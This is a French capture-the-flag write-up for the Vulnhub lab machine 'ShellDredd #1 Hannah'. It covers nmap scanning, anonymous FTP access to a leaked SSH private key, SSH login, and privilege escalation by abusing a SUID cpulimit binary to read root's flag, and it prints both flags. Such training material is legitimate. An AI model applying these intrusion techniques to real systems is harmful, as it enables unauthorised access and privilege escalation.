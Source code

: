 ```yaml
---
layout: default
title: "Writeup OnSystem: ShellDredd #1 Hannah - Vulnhub"
date:   2020-09-05 03:00:00 +0200
published: true
---
```


# Informations sur la box :

* **Difficulté** : Facile
* **Description** : *Flag: 2 (user & root). Enumeration & Privilege Escalation. This works better with VirtualBox rather than VMware*
* **Type de fichier** : .ova (VirtualBox)
* **DHCP** : Activé
* **Lien** : [https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/)


### Ce que nous allons aborder dans ce writeup :

*	[Énumération](#énumération)
* 	[Shell basique](#shell-basique)
*	[Privilege escalation](#privilege-escalation)

* * *

## Énumération
* * *

Cette box est sans doute la box la plus rapide que j'ai faite !

On trouve l'adresse IP de la box à attaquer à l'aide de ``nmap`` :

```bash
nmap -sP 192.168.1.0/24
```

On obtient son adresse IP qui est la suivante : **192.168.1.108**

On scanne ensuite les ports pour trouver ceux qui sont ouverts avec les services qui tournent dessus :

```bash
nmap -sV -p- 192.168.1.108 -O -A --min-rate 5000 -T5
```

* **-sV** : Permet de scanner les services et d'indiquer les versions et les informations correspondantes
* **-p-** : On scan TOUS les ports
* **-O** : Détection de l'OS
* **-A** : Mode aggressif
* **--min-rate 5000** : Définit le nombre d'envoi de paquets par secondes
* **-T5** : Définit le template comme "rapide"

Pour plus d'informations vous pouvez consulter le ``man`` de nmap.

Le résultat est le suivant :

```bash
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (EdDSA)
```

Le scan nous indique qu'il n'y a que deux ports ouverts et pas de serveur web. 

Le serveur **FTP** autorise les **connexion anonymes**. Grâce à ça on est presque sûr que le vecteur d'attaque (ou au moins des informations cruciales) seront récupérables via FTP.

On s'y connecte avec la commande suivante :

```bash
ftp 192.168.1.108
```

On précise l'utilisateur **anonymous** et on laisse le champ du mot de passe vide. On se retrouve connecté sur le FTP !

Un simple ``ls -la`` et on se retrouve avec un dossier nommé **.hannah**. On peut déjà se dire que ce sera potentiellement un utilisateur de la machine.

En se rendant dans ce répertoire on trouve une **clé privée SSH**.

```bash
get .hannah/id_rsa
```

On va l'utiliser pour se connecter au SSH avec l'utilisateur **hannah**. Si jamais une passphrase est nécessaire alors on devra utiliser ``john`` pour la craquer. 

Heureusement pour nous pas besoin de ça !

* * *

## Shell basique

```bash
chmod 600 id_rsa
ssh -i id_rsa hannah@192.168.1.108 -p 61000
```

On peut récupérer le flag utilisateur :

```bash
cat /home/hannah/user.txt
```
```
Gr3mMhbCpuwxCZorqDL3ILPn
```

* * *

## Privilege escalation

On cherche les potentiels binaires avec le **bit SUID** positionné :

```bash
find / -perm -4000 2>/dev/null
```

Deux binaires paraissent intéressant :

```
/usr/bin/mawk
/usr/bin/cpulimit
```

Bizarrement je n'ai pas réussi à exécuter une commande avec ``mawk`` en étant root. Chaque commande était bien exécutée mais en tant que l'utilisateur courant.

Cependant avec le deuxième on peut récupérer le contenu du fichier qui contient le flag du root :

```bash
/usr/bin/cpulimit -l 100 -f cat /root/root.txt
```
```
yeZCB44MPH2KQwbssgTQ2Nof
```

Merci à **d4t4s3c** pour cette box :)